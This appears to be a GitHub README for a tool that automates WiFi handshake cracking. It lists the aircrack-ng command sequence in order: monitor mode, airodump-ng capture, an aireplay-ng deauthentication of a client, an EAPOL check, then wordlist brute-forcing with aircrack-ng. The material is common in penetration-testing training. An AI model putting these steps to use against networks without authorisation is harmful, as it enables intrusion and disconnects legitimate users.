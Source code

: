 ## How it works
- The entry point is master.py, which displays all the possible options.
- First option is to display all the available interfaces. In order to do this, master.py calls **listInterfaces** function which in turn calls DetectInterface.py with its execIW() function. The execIW() function runs ``ip link show`` to list all the available interfaces and stores the output in an ephemeral file **interfaces.txt**. **listInterfaces()** then does some string manipulation to carve out the interface names and deletes the **interfaces.txt** file. It also returns the interfaces list to master.py which is then displayed.



## Procedure[David Bombal video]
1. Select a Wireless Adapter that supports monitor mode and packet injection
2. Choose a WiFi network or AP to attack [DONE]
3. Run `sudo airmon-ng check kill` to kill any conflicting processes [Ignoring for now]
4. Run `sudo airmon-ng start {interface}` to activate Monitor Mode
5. Run `sudo airodump-ng {interface}mon` to get the AP's MAC address and channel and MAC of one client connected to it
6. In one window, `sudo airodump-ng -w {output file} -c {channel} --bssid {MAC of AP} {interface}mon`.This will keep outputting packets as a pcap file.
7. In second window, `sudo aireplay-ng --deauth 1 -a {MAC of AP} -c {MAC of client} {interface}mon`. This performs the deauth.
8. After 10 seconds, stop the outputting of packets in the first window.
9. Put interface back into managed mode
10. Check presence of eapol packets in the capture
11. Run `aircrack-ng hack-01.cap -w {wordlist}` to brute force the key data present in hack-01.cap output file.
------------------------------------------------------------------------------------------------------------------------------------------------------------

## Errors to fix
1. If interface is already in monitor mode, do not return "Interface does not support monitor mode". Instead deactivate it, then resume normal operation [FIXED]
2. Check for packet injection on the wireless interface as well [FIXED]
3. Weird issues persisting in scanning. Try to kill conflicting processes [FIXED]
4. Unpredictable naming conventions of the Interfaces is problematic 
5. Packet Injection test does not work if interface is in Monitor Mode already.
